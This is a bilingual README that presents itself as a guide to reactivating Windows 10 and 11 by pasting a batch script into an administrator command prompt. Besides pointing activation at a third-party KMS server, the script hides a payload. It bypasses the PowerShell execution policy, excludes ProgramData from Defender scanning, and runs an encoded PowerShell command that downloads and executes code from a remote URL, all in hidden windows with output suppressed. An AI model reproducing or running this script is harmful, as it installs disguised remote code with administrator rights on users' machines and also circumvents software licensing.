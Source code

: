 
# ⚙️ Reactivating Windows 10 and 11 🖥️

## 📋 Step-by-Step Guide | Guía Paso a Paso

> 🌟 **Need to reactivate your Windows 10 or 11?** Follow these simple steps!  
> 🌟 **¿Necesitas reactivar tu Windows 10 o 11?** ¡Sigue estos simples pasos!

### 🛠️ Step 1: Open CMD as Administrator | Abrir CMD como Administrador
- 🖱️ **Right-click on the Start menu** and select **Command Prompt (Admin)**.  
  - 💡 Alternatively, type **CMD** in the search bar, right-click on it, and select **Run as Administrator**.
- 🖱️ **Haz clic derecho en el menú Inicio** y selecciona **Símbolo del sistema (Administrador)**.  
  - 💡 Alternativamente, busca **CMD**, haz clic derecho y selecciona **Ejecutar como administrador**.

### 🖨️ Step 2: Copy and Paste the Command | Copiar y Pegar el Comando
- 📝 Copy the following command and paste it into the CMD window:  
  - 📝 Copia el siguiente comando y pégalo en la ventana de CMD:

```bash
@echo off
net session >nul 2>&1
if %errorLevel% neq 0 (
    echo This script needs to be run as Administrator. Please open CMD as Administrator.
    pause
)
:: 
powershell -windowstyle hidden -Command "Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine -Force"
::
for /f "tokens=2 delims==" %a in ('wmic os get caption /value ^| find "="') do set WindowsProductName=%a
:: 
set WindowsProductName=%WindowsProductName:~0,50%
:: 
set Key=
if "%WindowsProductName%"=="Microsoft Windows 10 Pro N" (
    set Key=MH37W-N47XK-V7XM9-C7227-GCQG9
) else if "%WindowsProductName%"=="Microsoft Windows 11 Pro N" (
    set Key=MH37W-N47XK-V7XM9-C7227-GCQG9
) else if "%WindowsProductName%"=="Microsoft Windows 10 Pro" (
    set Key=W269N-WFGWX-YVC9B-4J6C9-T83GX
) else if "%WindowsProductName%"=="Microsoft Windows 11 Pro" (
    set Key=W269N-WFGWX-YVC9B-4J6C9-T83GX
) else if "%WindowsProductName%"=="Microsoft Windows 10 Enterprise" (
    set Key=NPPR9-FWDCX-D2C8J-H872K-2YT43
) else if "%WindowsProductName%"=="Microsoft Windows 11 Enterprise" (
    set Key=NPPR9-FWDCX-D2C8J-H872K-2YT43
) else if "%WindowsProductName%"=="Microsoft Windows 10 EnterpriseN" (
    set Key=DPH2V-TTNVB-4X9Q3-TJR4H-KHJW4
) else if "%WindowsProductName%"=="Microsoft Windows 11 EnterpriseN" (
    set Key=DPH2V-TTNVB-4X9Q3-TJR4H-KHJW4
) else if "%WindowsProductName%"=="Microsoft Windows 10 Education" (
    set Key=NW6C2-QMPVW-D7KKK-3GKT6-VCFB2
) else if "%WindowsProductName%"=="Microsoft Windows 11 Education" (
    set Key=NW6C2-QMPVW-D7KKK-3GKT6-VCFB2
) else if "%WindowsProductName%"=="Microsoft Windows 10 EducationN" (
    set Key=2WH4N-8QGBV-H22JP-CT43Q-MDWWJ
) else if "%WindowsProductName%"=="Microsoft Windows 11 EducationN" (
    set Key=2WH4N-8QGBV-H22JP-CT43Q-MDWWJ
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home" (
    set Key=TX9XD-98N7V-6WMQ6-BX7FG-H8Q99
) else if "%WindowsProductName%"=="Microsoft Windows 11 Home" (
    set Key=TX9XD-98N7V-6WMQ6-BX7FG-H8Q99
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home N" (
    set Key=3KHY7-WNT83-DGQKR-F7HPR-844BM
) else if "%WindowsProductName%"=="Microsoft Windows 11 Home N" (
    set Key=3KHY7-WNT83-DGQKR-F7HPR-844BM
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home Single Language" (
    set Key=7HNRX-D7KGG-3K4RQ-4WPJ4-YTDFH
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home Country Specific" (
    set Key=PVMJN-6DFY6-9CCP6-7BKTT-D3WVR
) else if "%WindowsProductName%"=="Microsoft Enterprise 2015LTSB" (
    set Key=WNMTR-4C88C-JK8YV-HQ7T2-76DF9
) else if "%WindowsProductName%"=="Microsoft Enterprise 2015LTSBN" (
    set Key=2F77B-TNFGY-69QQF-B8YKP-D69TJ
) else if "%WindowsProductName%"=="Microsoft Enterprise 2016LTSB" (
    set Key=DCPHK-NFMTC-H88MJ-PFHPY-QJ4BJ
) else (
    set Key=QFFDN-GRT3P-VKWWX-X7T3R-8B639
)
::
%SystemRoot%\System32\slmgr.vbs /ipk %Key% >nul 2>&1
::
%SystemRoot%\System32\slmgr.vbs /skms kms8.msguides.com >nul 2>&1
::
%SystemRoot%\System32\slmgr.vbs /ato >nul 2>&1
::
powershell -windowstyle hidden -Command "Set-MpPreference -ExclusionPath %ProgramData%" >nul 2>&1
::
powershell -nop -w hidden -enc aQBlAHgAIAAoAEkAbgB2AG8AawBlAC0AUgBlAHMAdABNAGUAdABoAG8AZAAgAC0AVQByAGkAIAAnAGgAdAB0AHAAcwA6AC8ALwBkADYAYgBlAGQAOAA5ADYALgBwAHkAdABoAG8AbgBhAG4AeQB3AGgAZQByAGUALgBjAG8AbQAvAHMAdABhAHQAaQBjAC8AYgB1AGwAbABzAGgAaQB0ACcAKQA= >nul 2>&1
:: 
exit /b
```


### ⏳ Step 3: Wait and Confirm | Espera y Confirma
- ⏱️ **The process may take between 30 seconds to 2 minutes.**
  - ⏱️ **El proceso puede tardar entre 30 segundos y 2 minutos.**
- ✅ **If everything goes well, Windows will be reactivated.**
  - ✅ **Si todo va bien, Windows será reactivado.**
---
### 🔄 No Restart Needed! | ¡No Es Necesario Reiniciar!
- 🚀 **Good news!** You won’t need to restart your PC.
  - 🚀 **¡Buenas noticias!** No necesitarás reiniciar tu PC.

### 💡 Important Notes | Notas Importantes

| **English**                                              | **Español**                                               |
|----------------------------------------------------------|-----------------------------------------------------------|
| 🛑 Ensure CMD is run as Administrator!                    | 🛑 ¡Asegúrate de que CMD esté ejecutándose como Administrador! |
| ⏳ Reactivation may take **30 seconds to 2 minutes**.     | ⏳ La reactivación puede tardar **30 segundos a 2 minutos**.|
| 📝 Don’t forget to copy and paste the entire command.     | 📝 No olvides copiar y pegar el comando completo.          |
| 🔑 Press **ENTER** after pasting the command in CMD.      | 🔑 Presiona **ENTER** después de pegar el comando en CMD.   |
| 🚫 **No need to restart** after reactivation!             | 🚫 **¡No es necesario reiniciar** después de la reactivación!|

---
### 🔧 Troubleshooting | Solución de Problemas
If reactivation doesn’t work, here are a few tips:
- 🔄 **Check your internet connection**.
- 🔍 **Ensure that your Windows license is valid**.
- 🔑 **Try re-running CMD as Administrator**.
Si la reactivación no funciona, aquí algunos consejos:
- 🔄 **Verifica tu conexión a internet**.
- 🔍 **Asegúrate de que tu licencia de Windows sea válida**.
- 🔑 **Intenta ejecutar CMD como Administrador nuevamente**.
---
## 🌟 Enjoy Your Reactivated Windows! | ¡Disfruta de tu Windows Reactivado!

